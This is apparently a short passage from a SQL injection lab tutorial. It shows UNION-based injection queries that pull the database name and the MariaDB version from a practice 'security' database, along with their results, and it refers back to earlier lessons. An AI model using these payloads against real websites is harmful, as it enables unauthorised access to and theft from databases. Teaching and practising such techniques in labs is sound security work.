




Dumping data
a) Dump the database.
QUERY: ' UNION select 1,database(),3 #


Result: We got the Database name as “security”.
b) Dump Database and Version.
QUERY: ' UNION select 1,database(),version() #


Result: Databese is “security” Verion is “10.3.22-MariaDB-1”.
You can use information_schema as in previous lessons.